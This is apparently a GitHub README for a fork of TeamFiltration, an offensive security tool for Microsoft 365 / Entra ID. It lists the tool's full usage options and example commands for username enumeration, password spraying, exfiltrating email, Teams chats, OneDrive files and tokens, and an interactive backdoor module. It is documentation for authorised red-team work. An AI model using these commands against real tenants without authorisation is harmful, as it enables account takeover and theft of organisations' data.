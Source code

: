 
 <p align="center">
 <img src="TFLogo.png" width="500px" alt="TeamFiltration" />
</p>

## TeamFiltration

TeamFiltration is a cross-platform framework for enumerating, spraying, exfiltrating, and backdooring O365 EntraID accounts.
See the [TeamFiltration](https://github.com/Flangvik/TeamFiltration/wiki/Home) wiki page for an introduction into how TeamFiltration works and the [Quick Start  Guide](https://github.com/Flangvik/TeamFiltration/wiki/Home#quick-start-guide) for how to get up and running!

This tool has been used internally at TrustedSec since January 2021 and was publicly released in my talk [Taking a Dump In The Cloud](https://youtu.be/GpZTQHLKelg) during DefCON30.

## Download
[You can download the latest precompiled release for Linux, Windows and MacOS ](https://github.com/Flangvik/TeamFiltration/releases/latest)   

**The releases are precompiled into a single application-dependent binary. The size go up, but you do not need NET or any other dependencies to run them.**

## Fork Changes
The AWS Fireprox functionality has been removed from the spray and enumeration modules. Instead, the tool can route all traffic through the proxy defined in your configuration file. To activate this, you must use the --debug flag.

## Usage

```

  ╔╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╗
 ╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬
╬╬╬╬┤                              ╠╬╬╝╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬
╬╬╬╬╣                              │      ╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬
╬╬╬╬╣                              ││      ╚╬╬╝╚ └╚╝╬╬╬╬╬╬
╬╬╬╬╣         ╔╦╦╬╬╬╬╬╬╦╦╗         ││       │        ╬╬╬╬╬
╬╬╬╬╣     ╔╬╬╬╝╝┘      ╚╝╝╬╬╬┐     ││       ││       └╬╬╬╬
╬╬╬╬┤    ╬╬╝╚╩╬╗╔          ╚╬╬╬    ││       ││        ╬╬╬╬
╬╬╬╬┤   ╬╝      ╚╬╬╗╗ ╔      ╚╬╗   ││      ├││        ╬╬╬╬
╬╬╬╬┤  ╬╬     ╔╗   ╚╬╬╬╬╬╬╦    ╬╬  │┌    ╔╬┤││       ╔╬╬╬╬
╬╬╬╬┤ ╔╬┤     ╬╬╬   ╬╬╬╬╬╬╬╬╝╝╝╬╬╗ ╠╬╬╬╬╬╬╬╬╬╗      ┌╬╬╬╬╬
╬╬╬╬┤ ╬╬┤     ╚╩┘   ╚╬╬╬╬╬╩    ╠╬╬ ╚╝╝╝╝╝╝╝╝╝╬╬╗╗╗╦╬╬╬╬╬╬╬
╬╬╬╬┤ ╬╬┤                      ╠╬╬ ││         ╬╬╬╬╬╬╬╬╬╬╬╬
╬╬╬╬┤  ╬╬   ╦╗            ╗╗   ╬╬  ││         │       ╬╬╬╬
╬╬╬╬┤  └╬┐   ╚╬╗╗      ╔╬╬╝   ╔╬┘  ││         │       ╬╬╬╬
╬╬╬╬┤   └╬╗    ╚╩╩╬╬╬╩╩╝╝   ╔╬╬    ││         │       ╬╬╬╬
╬╬╬╬┤    ╚╬╬╬╗           ┌╗╬╬╝┘    ││         │       ╬╬╬╬
╬╬╬╬┤       ╚╩╬╬╬╦╦╦╦╦╦╬╬╬╝╝       ││         │       ╬╬╬╬
╬╬╬╬┤            ╚╚╝╝╝╝            ││         │       ╬╬╬╬
╬╬╬╬┤                              ││         │    ╔╗╬╬╬╬╬
╬╬╬╬┤                              ││         ╬╦╦╬╬╬╬╬╬╬╬╬
╬╬╬╬┤                              ││     ╔╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬
╬╬╬╬┤                              ╬╬╬╗╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬
╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬
 └╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╬╝
   ╝╝╝╝╝╝╝╝╝╝╝╝╝╝╝╝╝╝╝╝╝╝╝╝╝╝╝╝╝╝╝╝╝╝╝╝╝╝╝╝╝╝╝╝╝╝╝╝╝╝╝╝

[❤] TeamFiltration V3.5.5 PUBLIC, created by @Flangvik at @TrustedSec
[+] Args parsed 
Usage:

   --outpath     Output path to store database and exfiltrated information (Needed for all modules)

   --config      Local path to your TeamFiltration.json configuration file, if not provided will load from the current path

   --exfil       Load the exfiltration module

         --username            Override to target a given username that does not exist in the database
         --password            Override to target a given password that does not exist in the database
         --tokens              Override to target a (file with newline seperated JWT tokens|single JWT| , seperated JWT tokens) and perfom exfiltration
         --cookie-dump         Override to target a given account using it's refresh-cookie-collection

         --all                 Exfiltrate information from ALL SSO resources (Graph, OWA, SharePoint, OneDrive, Teams)
         --aad                 Exfiltrate information from Graph API (domain users and groups)
         --teams               Exfiltrate information from Teams API (files, chatlogs, attachments, contactlist)
         --teams-db            Exfiltrate cookies and authentication tokens from an exfiltrated Teams database
         --onedrive            Exfiltrate information from OneDrive/SharePoint API (accessible SharePoint files and the users entire OneDrive directory)
         --owa                 Exfiltrate information from the Outlook REST API (The last 2k emails, both sent and received) 
               --owa-limit          Set the max amount of emails to exfiltrate, default is 2k.
         --jwt-tokens          Dump all gathered JSON formated JTW-tokens for SSO resources (MsGraph,AdGraph, Outlook, SharePoint, OneDrive, Teams)

   --spray       Load the spraying module

         --aad-sso             Use SecureWorks's Azure Active Directory password brute-forcing technique when spraying
         --us-cloud            When spraying companies attached to US Tenants (https://login.microsoftonline.us/)

         --passwords           Path to a list of passwords, common weak-passwords will be generated if not supplied
         --exclude             Path to a list of emails to exclude from spraying
         --seasons-only        Password genersated for spraying will only be based on seasons
         --months-only         Password generated for spraying will only be based on months
         --common-only         Spray with the top 20 most common passwords
         --shuffle-passwords   Shuffle the passwordlist before spraying
         --shuffle-users       Shuffle the target userlist before spraying
         --shuffle-regions     Shuffle FireProx regions when spraying

         --auto-exfil          If valid login is found, auto start the exfil module

         --sleep-min           Minimum minutes to sleep between each full rotation of spraying default=60
         --sleep-max           Maximum minutes to sleep between each full rotation of spraying default=100
         --jitter              Seconds between each individual authentication attempt. default=0
         --time-window         Defines a time windows where spraying should accour, in the military time format <12:00-19:00>
         --push                Get Pushover notifications when valid credentials are found (requires pushover keys in config)
         --push-locked         Get Pushover notifications when an sprayed account gets locked (requires pushover keys in config)
         --force               Force the spraying to proceed even if there is less the <sleep> time since the last attempt

   --enum        Load the enumeration module

         --domain              Domain to perfom enumeration against, names pulled from statistically-likely-usernames if not provided with --usernames
         --usernames           Path to a list of usernames to enumerate (emails)
         --dehashed            Use the dehashed submodule in order to enumerate emails from a basedomain
         --validate-msol       Validate that the given o365 accounts exists using the public GetCredentialType method (Very RateLimited - Slow 20 e/s)
         --validate-teams      Validate that the given o365 accounts exists using the Teams API method (Recommended - Super Fast 300 e/s)
         --validate-login      Validate that the given o365 accounts by attemping to login (Noisy - triggers logins - Fast 100 e/s)
         --validate-onedrive   Validate that the given o365 accounts using @nyxgeek OneDrive method (Recommended - Fast 300 e/s

   --backdoor        Loads the interactive backdoor module

   --database        Loads the interactive database browser module

   --debug           Proxy all outgoing HTTP requests through the proxy specified in the config

   Examples:

        --outpath C:\Clients\FooBar\TFOutput --config myCustomConfig.json --spray --sleep-min 120 --sleep-max 200 --push --shuffle-users --shuffle-regions
        --outpath C:\Clients\FooBar\TFOutput --config myCustomConfig.json --spray --push-locked --months-only --exclude C:\Clients\FooBar\Exclude_Emails.txt
        --outpath C:\Clients\FooBar\TFOutput --config myCustomConfig.json --spray --passwords C:\Clients\2021\FooBar\Generic\Passwords.txt --time-window 13:00-22:00
        --outpath C:\Clients\FooBar\TFOutput --config myCustomConfig.json --exfil --cookie-dump C:\\CookieData.txt --all
        --outpath C:\Clients\FooBar\TFOutput --config myCustomConfig.json --exfil --aad 
        --outpath C:\Clients\FooBar\TFOutput --config myCustomConfig.json --exfil --tokens C:\\OutputTokens.txt --onedrive --owa
        --outpath C:\Clients\FooBar\TFOutput --config myCustomConfig.json --exfil --teams --owa --owa-limit 5000
        --outpath C:\Clients\FooBar\TFOutput --config myCustomConfig.json --debug --exfil --onedrive
        --outpath C:\Clients\FooBar\TFOutput --config myCustomConfig.json --enum --validate-onedrive --domain example.com
        --outpath C:\Clients\FooBar\TFOutput --config myCustomConfig.json --enum --validate-msol --usernames C:\Clients\FooBar\OSINT\Usernames.txt
        --outpath C:\Clients\FooBar\TFOutput --config myCustomConfig.json --backdoor
        --outpath C:\Clients\FooBar\TFOutput --config myCustomConfig.json --database

```

## Credits

- [GitHub - KoenZomers/OneDriveAPI: API in .NET to communicate with OneDrive Personal and OneDrive for Business](https://github.com/KoenZomers/OneDriveAPI)
- [Research into Undocumented Behavior of Azure AD Refresh Tokens ](https://github.com/secureworks/family-of-client-ids-research) 
- [WS API Gateway management tool for creating on the fly HTTP pass-through proxies for unique IP rotation](https://github.com/ustayready/fireprox)
- Credits to [Ryan](https://twitter.com/detectdotdev) for validating and discussing my observations / questions!
- The entire [TrustedSec](https://TrustedSec.com) team for helping me polish this tool! 
- The OneDrive enumeration method found by @nyxgeek and script [onedrive_user_enum](https://github.com/nyxgeek/onedrive_user_enum)

